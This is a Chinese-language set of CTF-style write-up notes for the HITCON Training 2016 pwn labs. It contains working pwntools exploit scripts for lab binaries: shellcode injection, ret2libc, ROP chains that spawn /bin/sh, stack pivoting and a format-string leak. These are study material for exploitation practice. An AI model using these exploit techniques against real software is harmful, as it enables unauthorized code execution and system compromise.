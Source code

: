 # Angelboy_HITCON_Training_2016 - Notes
> 前言:
>
> 其實每個 lab 下都有解答了，純粹紀錄和學習下，然後應該也不歸類在 wargame 就是，但不知道放哪

當初是看到這個[網站](https://veritas501.space/2017/05/23/HITCON-training%20writeup/)才知道的


> 目錄:
> * [lab1](#lab1)
> * [lab2](#lab2)
> * [lab3](#lab3)
> * [lab4](#lab4)
> * [lab5](#lab5)
> * [lab6](#lab6)
> * [lab7](#lab7)
> * [lab8](#lab8)
> * [lab9](#lab8)
> * [lab10](#lab9)
> * [lab11](#lab10)
> * [lab12](#lab11)
> * [lab13](#lab12)

lab1
---

單純 gdb 練習

```
gdb

b *get_flag+389
r
set $eax=$edx
c
```

lab2
---

保護都沒開，感覺就是 ret2shellcode

ida pro 看一下，就是輸入以後會直接執行，然後然後只允許 open/read/write

假設 flag 在當前目錄好了，就是 cat ./flag 這樣

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/HITCON-Training/LAB/lab2/orw.bin')

sh = open("a.bin", "rb").read()
r.sendlineafter(':', sh)


r.interactive()


"""
jmp sh
orw:
 pop ebx
 mov eax, 0x5
 xor ecx,ecx
 int 0x80

 mov ebx, eax
 mov eax, 0x3
 mov ecx, esp
 mov edx, 0x100
 int 0x80

 mov edx, eax
 mov eax, 0x4
 mov ebx, 0x1
 int 0x80

 mov eax, 0x1
 xor ebx, ebx
 int 0x80
sh:
 call orw
 db 'flag', 0
"""
```


lab3
---

這題名字就是 ret2shellcode @@ ，然後保護也沒開應該就是了

```
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/HITCON-Training/LAB/lab3/ret2sc')

name = 0x804a060
r.sendlineafter(':', asm(shellcraft.sh()))
r.sendlineafter(':', "a"*32 + p32(name))
r.interactive()
```

lab4
---

ret2libc 沒什麼好說的

```
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('./ret2lib')

puts_got = 134520860
puts_off = 0x005fca0
system_off = 0x0003ada0
r.sendlineafter('address (in dec) :', str(puts_got))
info(r.recvuntil('the address : '))
libc = int(r.recvuntil('\n')[:-1], 16) - puts_off
info("libc: "+hex(libc))
system = system_off + libc
sh = libc + 0x15BA0B
trash = 'a'*60
r.sendlineafter(':', trash + flat([system, sh, sh]))


r.interactive()
```


lab5
---

statically linked 下的 rop

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('./simplerop')
elf = ELF('./simplerop')
trash = 'a'*32
read = 0x0806CD50
bss = elf.bss()
pop3_ret = 0x0804838c
pop_eax = 0x080bae06
pop_ecx_ebx = 0x0806e851
pop_edx = 0x0806e82a
int0x80 = 0x080493e1
payload = trash + flat([read, pop3_ret, 0, bss, 0x10, pop_eax, 0xb, pop_ecx_ebx, 0, bss, pop_edx, 0])
payload += p32(int0x80)
r.sendafter(":", payload)
r.send('/bin/sh\x00')
r.interactive()
```


lab6
---

stack pivot ，因為 buf 不夠長，不過有給 libc 所以還是很簡單...

```
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('./a')
r.recvrepeat(0.2)

trash = 'a'*40
buf1 = 0x0804b000-0x100
buf2 = 0x0804b000-0x200
read = 134513536
puts = 134513548
puts_off = 0x5fca0
puts_got = 134520816
system_off = 0x003ada0
sh_off = 0x15BA0B
leave_ret = 0x08048418
pop1 = 0x0804836d # pop ebx ; ret

pad = trash + flat([buf1, read, leave_ret, 0, buf1, 100])
r.send(pad)

pad2= flat([buf2, puts, pop1, puts_got, read, leave_ret, 0, buf2, 100])
r.send(pad2)
libc = u32(r.recv(4)) - puts_off
print "libc: ",hex(libc)
system = system_off + libc
sh = libc + sh_off

r.recvrepeat(0.2)
pad3 = flat([0, system, sh, sh])
r.send(pad3)


r.interactive()
```

lab7
---

這題考基本的 format string vuln ，漏洞在
```
printf(buf);
```

所以先透過 format string vuln 來 Leak password ，在輸入就好

```
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = remote('127.0.0.1',1234)
r.recvrepeat(0.1)
password = 0x804a048
payload = p32(password) + "G%10$sG"
r.sendline(payload)
r.recvuntil('G')
s = u32(r.recvuntil('G')[:-1])
r.sendline(str(s))
r.interactive()
```


lab8
---

可以看成有三題

1. 寫 0xda
2. 寫 0xfaceb00c
3. get shell




lab9
---

lab10
---

lab11
---

lab12
---

lab13
---












